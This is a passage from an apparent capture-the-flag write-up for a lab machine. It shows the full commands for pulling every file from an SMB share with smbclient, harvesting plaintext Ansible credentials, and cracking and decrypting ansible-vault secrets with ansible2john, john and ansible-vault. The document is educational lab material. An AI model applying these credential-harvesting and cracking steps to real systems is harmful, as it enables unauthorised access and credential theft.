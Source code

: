 So we can connect to *Development* device with `smbclient` with the following command:
```bash
smbclient \\\\10.10.11.222\\Development
```

Now we can get back all files from the shared devices to our local machine with the commands:
```
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

By inspecting these files we can find some credentials, in plaintext or hashed/encrypted:
```
> Automation/Ansible/PWM/ansible_inventory 
    ansible_user: administrator
    ansible_password: Welcome1
    ansible_port: 5985
    ansible_connection: winrm
    ansible_winrm_transport: ntlm
    ansible_winrm_server_cert_validation: ignore
> Automation/Ansible/PWM/defaults/main.yml
    Encrypted pwm_admin_login, pwm_admin_password and ldap_admin_password
> Automation/Ansible/ADCS/defaults/main.yml 
    [...]
    ca_passphrase: SuP3rS3creT
```

We can also find some credentials, stored encrypted with `ansible-vault`. We can then convert it to a supported format for `johntheripper` with the script `ansible2john`. Finally we can crack it with `john` and we find the same passwords for the three hashes:
```
$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5:!@#$%^&*
$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8:!@#$%^&*
$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635:!@#$%^&*
```

First, I didn't understand it. But after a few researches, I figure it out that this password is for the `ansible-vault`. So we need now to install ansible and decrypt them with this password (`!@#$%^&*`):
```bash
$ cat ldap-admin-password | ansible-vault decrypt
Vault password: 
Decryption successful
DevT3st@123
$ cat pwm-admin-login | ansible-vault decrypt
Vault password: 
Decryption successful
svc_pwm
$ cat pwm-admin-pwd | ansible-vault decrypt  
Vault password: 
Decryption successful
pWm_@dm!N_!23
```
